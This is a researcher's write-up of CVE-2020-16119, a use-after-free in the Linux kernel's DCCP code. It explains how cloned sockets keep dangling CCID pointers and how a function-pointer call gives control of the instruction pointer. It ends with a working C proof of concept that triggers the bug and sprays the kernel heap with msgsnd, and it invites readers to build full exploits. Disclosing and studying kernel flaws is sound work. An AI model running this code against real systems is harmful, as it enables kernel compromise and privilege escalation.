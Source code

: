 # CVE-2020-16119

## Background
Datagram Congestion Control Protocol (DCCP) is an unreliable, connection
oriented protocol designed to solve issues present in UDP and TCP, particularly
for real-time and multimedia (streaming) traffic.
It divides into a base protocol and pluggable congestion control
modules called CCIDs. Like pluggable TCP congestion control, at least one CCID
needs to be enabled in order for the protocol to function properly. In the Linux
implementation, this is the TCP-like CCID2. Additional CCIDs, such as
the TCP-friendly CCID3, are optional.

In recent months I have researched and reviewed various parts of the Linux kernel networking subsystem. In this time, I have come across a use-after-free vulnerability in the DCCP component of the latest kernel release (5.8.10).

## How Does the UAF Happen?
First, let's understand how the UAF occurrs in the first place. Here's a breakdown:

We create a socket with type ```SOCK_DCCP``` and protocol ```IPPROTO_IP```:
```c
socket(AF_INET6,SOCK_DCCP,IPPROTO_IP);
```
Then, we call ```listen()``` on the resulting socket. The socket object is now in the DCCP_LISTEN state.
Behind the scenes, when the socket is put in said state, ```dccp_create_openreq_child()``` is called:

```c
struct sock *dccp_create_openreq_child(struct sock *sk,
				       const struct request_sock *req,
				       const struct sk_buff *skb)
{
	struct sock *newsk = inet_csk_clone_lock(sk, req, GFP_ATOMIC);
	if (newsk != NULL) {
		struct dccp_request_sock *dreq = dccp_rsk(req);
		struct inet_connection_sock *newicsk = inet_csk(newsk);
		struct dccp_sock *newdp = dccp_sk(newsk);
		newdp->dccps_role	    = DCCP_ROLE_SERVER;
		newdp->dccps_hc_rx_ackvec   = NULL;
		newdp->dccps_service_list   = NULL;
    ...
}
```

We can see in ```dccp_create_openreq_child``` that the initial socket object is being cloned[1].
Note that when ```inet_csk_clone_lock()``` is called, dccps_hc_rx_ccid and dccps_hc_tx_ccid are copied.

If one of the socket objects is disconnected or closed, it
frees dccps_hc_rx_ccid/dccps_hc_tx_ccid and provides us a dangling pointer in the other socket object.

To make one of our socket objects disconnect, we can call ```connect()``` on it with AF_UNSPEC, and it will "free" our socket via ```dccp_disconnect()```.
```dccp_disconnect()``` sets the socket state to DCCP_CLOSED, and *doesn't* free and assign NULL to
dccps_hc_rx_ccid and dccps_hc_tx_ccid.

Then, we need to call ```connect()``` on a new socket with the same type and protocol as the first one.
After that, we call ```listen()``` on our new socket so our new socket object will get cloned with ```dccp_create_openreq_child()```.
```dccp_create_openreq_child()``` will create a new socket object thats holds the dangling pointers of dccps_hc_rx_ccid/dccps_hc_tx_ccid.
This leads to the old socket and the new socket holding the same pointers to dccps_hc_rx_ccid/dccps_hc_tx_ccid.

## Escalation to RIP Control
If we want to get arbitrary code execution with our dangling pointer (the freed object that we are using after we free ;D ), we have to dereference the dangling pointer 
with close/getsockopt. For example,

```ccid_hc_tx_delete``` is the function that is responsible for freeing dccps_hc_rx_ccid/dccps_hc_tx_ccid:

```c
void ccid_hc_tx_delete(struct ccid *ccid, struct sock *sk)
{
	if (ccid != NULL) {
		if (ccid->ccid_ops->ccid_hc_tx_exit != NULL)
			ccid->ccid_ops->ccid_hc_tx_exit(sk);      
		kmem_cache_free(ccid->ccid_ops->ccid_hc_tx_slab, ccid);
	}
}
```
We can see that this line: ```ccid->ccid_ops->ccid_hc_tx_exit(sk);``` is calling a function pointer.

When this function is called for the first time (when the ```connect()``` with AF_UNSPEC is called), it is harmless and simply does cleanup.

However, when it is called the second time (when we actually ```close()``` and control the dangling pointer), it can call an arbitrary address specified by us.

In order to exploit this and get IP control, we have to heap-spray the kernel.
I used the msgsnd syscall to heap-spray the kernel. If you like, you can use other methods if you like.

### **Challenge**: 
write your own exploits for this UAF, in the same method i did or with another heap-spray technique. If you do, please share them with me! (@ManorHadar)

POC: (you can see [trigger_uaf.c](trigger_uaf.c) for a clean POC for self-uses.)
```c

/*
CVE-2020-16119
POC by @ManorHadar
(Feel free to share your exploits for this CVE with me!)
*/

#define _GNU_SOURCE
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <sys/syscall.h>
#include <netinet/in.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <pthread.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <sys/ipc.h>
#include <sys/shm.h>

int fd1,fd2;
struct sockaddr_in6 sk1,sk2;
#define BUFF_SIZE 64

void heap_spray();

int trigger_uaf()
{
  struct sockaddr_in6 csk1,csk2;
  struct sockaddr_in6 csk3;
  struct sockaddr_in6 csk4;
  
  fd1 = socket(AF_INET6,SOCK_DCCP,IPPROTO_IP);

  memset(&sk1,0,sizeof(sk1));
  sk1.sin6_family = AF_INET6;
  sk1.sin6_addr = in6addr_loopback;
  sk1.sin6_port = 0x214e;
  bind(fd1,(struct sockaddr*)&sk1,sizeof(sk1));

  listen(fd1,0x1); //DCCP_LISTEN

  fd2 = socket(AF_INET6, SOCK_DCCP, IPPROTO_IP);

  memset(&csk1,0,sizeof(csk1));
  csk1.sin6_family = AF_INET6;
  csk1.sin6_addr = in6addr_loopback;
  csk1.sin6_port = 0x214e;
  csk1.sin6_flowinfo = 0;
  connect(fd2,(struct sockaddr*)&csk1,sizeof(csk1));

  memset(&csk2,0,sizeof(csk2));
  // calling connect with AF_UNSPEC (free)
  connect(fd1,(struct sockaddr*)&csk2,sizeof(csk2));
  memset(&sk2,0,sizeof(sk2));

  heap_spray();

  sk2.sin6_family = AF_INET6;
  sk2.sin6_addr = in6addr_loopback;
  sk2.sin6_port = htons(0x2000);
  sk2.sin6_flowinfo = 0x2;
  sk2.sin6_scope_id = 6;
  bind(fd2,(struct sockaddr*)&sk2,sizeof(sk2));

  memset(&csk3,0,sizeof(csk3));
  connect(fd2,(struct sockaddr*)&csk3,sizeof(csk3));

  listen(fd2,0xb1);

  memset(&csk4,0,sizeof(csk4));
  csk4.sin6_family = AF_INET6;
  csk4.sin6_port = htons(0x2000);
  memset(&csk4.sin6_addr,0,sizeof(struct in6_addr));
  csk4.sin6_flowinfo = 1;
  csk4.sin6_scope_id = 0x32f1;
  connect(fd1,(struct sockaddr*)&csk4,sizeof(csk4));
  socket(AF_INET,SOCK_STREAM,0);
  close(fd2);
  return fd2;
}

void heap_spray()
{
   printf("Spraying the Heap");
   struct {
     long mtype;
     char mtext[BUFF_SIZE];
   }msg;
   memset(msg.mtext, 0x41, BUFF_SIZE-1);
   msg.mtext[BUFF_SIZE] = 0;
   int msqid = msgget(IPC_PRIVATE, 0644 | IPC_CREAT);
   msg.mtype = 1; // mtype must be > 0 
   for(int i = 0; i < 240; i++)
        msgsnd(msqid, &msg, sizeof(msg.mtext), 0);
}

int main(void)
{
  printf("Triggering the Use-After-Free");
  trigger_uaf();
  return 0;
}
```

